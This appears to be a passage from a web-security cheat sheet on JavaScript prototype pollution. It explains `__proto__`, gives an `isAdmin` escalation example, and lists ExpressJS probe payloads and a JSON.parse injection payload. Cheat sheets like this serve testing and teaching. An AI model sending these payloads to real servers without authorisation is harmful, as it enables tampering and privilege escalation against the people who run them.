 ```js
var myDog = new Dog();
```

```js
// Points to the function "Dog"
myDog.constructor;
```

```js
// Points to the class definition of "Dog"
myDog.constructor.prototype;
myDog.__proto__;
myDog["__proto__"];
```

<br>

### Examples

- Imagine that an application uses an object to maintain configuration settings, like this:
  ```js
  let config = {
    isAdmin: false,
  };
  ```
- An attacker might be able to add an `isAdmin` property to `Object.prototype`, like this:
  ```js
  Object.prototype.isAdmin = true;
  ```

<br>

### Manual Testing

- ExpressJS: `{ "__proto__":{"parameterLimit":1}}` + 2 parameters in GET request, at least 1 must be reflected in the response.
- ExpressJS: `{ "__proto__":{"ignoreQueryPrefix":true}}` + `??foo=bar`
- ExpressJS: `{ "__proto__":{"allowDots":true}}` + `?foo.bar=baz`
- Change the padding of a JSON response: `{ "__proto__":{"json spaces":" "}}` + `{"foo":"bar"}`, the server should return `{"foo": "bar"}`
- Modify CORS header responses: `{ "__proto__":{"exposedHeaders":["foo"]}}`, the server should return the header `Access-Control-Expose-Headers`.
- Change the status code: `{ "__proto__":{"status":510}}`

<br>

### Prototype Pollution via JSON Input

You can access the prototype of any object via the magic property `__proto__`.
The `JSON.parse()` function in JavaScript is used to parse a JSON string and convert it into a JavaScript object. Typically it is a sink function where prototype pollution can happen.

```js
{
    "__proto__": {
        "evilProperty": "evilPayload"
    }
}
```
